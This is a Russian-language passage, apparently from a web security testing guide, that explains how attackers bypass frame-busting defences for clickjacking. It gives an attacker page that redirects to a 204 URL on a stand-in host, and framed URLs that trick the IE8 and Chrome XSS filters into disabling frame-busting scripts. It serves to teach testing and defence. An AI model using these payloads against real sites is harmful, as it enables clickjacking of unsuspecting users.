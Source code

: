 Страница злоумышленника:

```html
<script>
    var prevent_bust = 0;
    window.onbeforeunload = function() {
        prevent_bust++;
    };
    setInterval(
        function() {
            if (prevent_bust > 0) {
                prevent_bust -= 2;
                window.top.location = "http://attacker.site/204.php";
            }
        }, 1);
</script>
<iframe src="http://example.org">
```

##### Фильтр XSS

Начиная с Google Chrome 4.0 и IE8 были введены XSS-фильтры для защиты пользователей от отражённых XSS-атак. Nava и Lindsay заметили, что такого рода фильтры можно использовать для деактивации кода блокировки фреймов, выдавая его за вредоносный.

- **Фильтр XSS в IE8**: этот фильтр анализирует все параметры каждого запроса и ответа, проходящие через браузер, и сравнивает их с набором регулярных выражений для поиска попыток отражённых XSS. Когда фильтр находит возможную XSS-атаку; он отключает все встроенные на странице скрипты, в том числе скрипты блокировки фреймов (то же самое можно сделать и с внешними скриптами). По этой причине злоумышленник может вызвать ложное срабатывание, вставив начало скрипта блокировки фреймов в параметры запроса.

Пример: код блокировки запуска во фрейме целевой страницы:

```html
<script>
    if ( top != self )
    {
        top.location=self.location;
    }
</script>
```

Код злоумышленника:

```html
<iframe src="http://example.org/?param=<script>if">
```

- **Фильтр XSSAuditor в Chrome 4.0**: Он ведет себя немного иначе по сравнению с XSS-фильтром IE8. Фактически, с помощью этого фильтра злоумышленник может деактивировать «скрипт», передав его код в параметре запроса. Это позволяет странице фрейма специально нацеливаться на один фрагмент, содержащий код блокировки фреймов, оставляя прочий код работать.

Пример: код блокировки запуска во фрейме целевой страницы:

```html
<script>
    if ( top != self )
    {
        top.location=self.location;
    }
</script>
```
